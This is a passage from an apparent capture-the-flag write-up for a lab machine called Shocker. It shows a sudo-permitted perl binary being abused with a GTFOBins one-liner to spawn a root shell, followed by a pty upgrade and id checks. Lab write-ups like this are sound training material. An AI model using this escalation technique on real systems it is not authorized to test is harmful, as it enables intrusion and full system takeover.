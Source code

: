 ```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From GTFOBins I could find the following : `sudo perl -e 'exec "/bin/sh";'`

![](attachments/shocker_2.png)

Let's try it.

```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
python3 -c 'import pty;pty.spawn("/bin/bash")' 
root@Shocker:/home/shelly# whoami
whoami
root
root@Shocker:/home/shelly# id
id
uid=0(root) gid=0(root) groups=0(root)
```

I got a `root` shell!
